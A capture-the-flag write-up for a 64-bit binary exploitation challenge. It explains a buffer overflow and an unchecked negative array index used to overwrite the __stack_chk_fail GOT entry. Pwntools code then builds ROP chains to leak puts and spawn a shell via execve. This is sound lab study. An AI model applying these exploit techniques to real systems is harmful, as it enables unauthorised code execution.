




<!-- gcc -O0 -fstack-protector -no-pie  b.c -o challenge -->

We got a 64bit binary file with a Dockerfile <br/>


First we try to see the protection on the the binary, in this case only PIE is not there.<br/>


There is a function which takes a message as input which has buffer size of 132. but there simple bufferoverflow of 162 bytes. so we can only be able to write upto return address + 1-2 bytes extra.
 


There is a global int64 array in which we are asked the entry number and the entry to that array. we can notice it dont check for negative entry number we can able to write above the array in memory.
There is canary protection also so we have to take care of it. We can't able to read the canary from any chance.



We can see global array is in bss segment above it there GOT table so we can write on it. above that we can't write becoz its read only segment.
So we can change GOT entry of any function.

We can't find any other function usefull , so we have to do ret2lib like attack becoz there is no usefull gadgets in this binary.

but how we are going to write our rop chain with just 1 return address space ???

We can take help of message array for this but we have somehow put below our function.

so we have to call the function twice , but there is canary.

so we have to replace stack_chk_fail got value with our vuln function. or can be done by simple ret instruction address also.

little tinkering in gdb we got -19 the value of entry number for stack_chk_fail.

```=python
funcaddr = (str(int("401192",16))).encode()
io.recvuntil(b": ")
payload =b"x"*161
io.sendline(payload)
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline(funcaddr)
```

so we can recall the function , now we try to build a rop chain to leak puts or any other function address.
Lets find some gadgets.


so we got two gadgets which can help us to set `rdi` register.
then simple returning to puts@plt can print the thing we want.

So I set puts@got to rdi register and then call puts@plt

Now we have to return to this rop chain safe. Now here comes the image be ready.



if we safely return from future function we have to face one issue after our first return address, our first 8 bytes comes from the rop chain we got destroyed by "\n" or 0x0a which fget adds after to input. so if overwrite the ret address next value will get overwritten by 0a which is bad.

So in this can use rop gadget `add rsp,8`


```=python
io.recvline()
io.recvuntil(b": ")
payload = ((b"x"*8)+ poprbp + putsgot + movrdi +putsplt +retadr+ p64(0x401192) + b"x"*200)[:161]
io.sendline(payload)
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((funcaddr))


io.recvline()
io.recvuntil(b": ")
payload = b"x"*152 + addrsp
io.sendline(payload)
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((funcaddr))

io.recvline()
io.recvuntil(b": ")
io.sendline(b"Hooray")
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((funcaddr))
```
so this payload will call puts and leak the address
after calling puts we return to our vuln function again to exploit further.
we got puts so after that we can to ropchain of libc in similar manner.

we can get libc from Dockerfile as it uses ubuntu latest

```=python
poprsi = p64(0x0110a4d+libcbase)
binsh = p64(0x01cb42f+libcbase)
poprdi = p64(0x010f75b +libcbase)
poprax = p64(0x00dd237+libcbase)
# poprdx = p64(0x010bf1e+libcbase)
syscall = p64(0x0288b5+libcbase)

io.recvline()
io.recvuntil(b": ")
payload = ((b"x"*8)+ poprdi + binsh + poprsi +p64(0)+poprax + p64(0x3b)+syscall+ b"x"*400)[:161]
io.sendline(payload)
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((chaosaddr))


io.recvline()
io.recvuntil(b": ")
payload = b"x"*152 + addrsp
io.sendline(payload)
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((chaosaddr))

io.recvline()
io.recvuntil(b": ")
io.sendline(b"Hooray")
io.recvuntil(b": ")
io.sendline(b"-19")
io.recvuntil(b": ")
io.sendline((chaosaddr))
```

there can be other easy way also after leaking libc address, like doing onegadget or somthing.



So we got our flag 

C3iCtf{Wh3r3_15_7h3_pu75_4ddr355_???7&%#*}

